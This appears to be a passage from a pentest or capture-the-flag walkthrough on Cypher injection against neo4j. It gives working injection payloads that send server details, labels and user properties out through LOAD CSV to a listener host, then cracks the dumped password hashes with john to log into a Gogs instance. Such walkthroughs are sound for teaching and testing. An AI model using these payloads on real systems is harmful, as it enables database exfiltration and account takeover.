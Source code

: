 ### neo4j Cypher Injection

* https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#extracting-information
* https://pentester.land/blog/cypher-injection-cheatsheet/


Extracting Information about Server Version
```sql
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://127.0.0.1:8000/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 // 
```

Extracting Information of labels
```sql
' OR 1=1 WITH 1 as a  CALL db.labels() YIELD label LOAD CSV FROM 'http://127.0.0.1:8000/?label=' + label as l RETURN 0 as _0 // 
```

Extracting Information of label's properties
```sql
' OR 1=1 WITH 1 as a MATCH (u:user) UNWIND keys(u) as p LOAD CSV FROM 'http://127.0.0.1:8000/?' + p +'='+toString(u[p]) as l RETURN 0 as _0 // 
```

```bash
admin:8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918
john:a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6
```

Crack password hashes using `john`
```bash
❯ john hashes -w=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256

... [snip] ...

❯ john hashes --show --format=Raw-SHA256
admin:admin
john:ThisIs4You

2 password hashes cracked, 0 left
```

With "john" creds we can login to "Gogs" instance on port 3000.
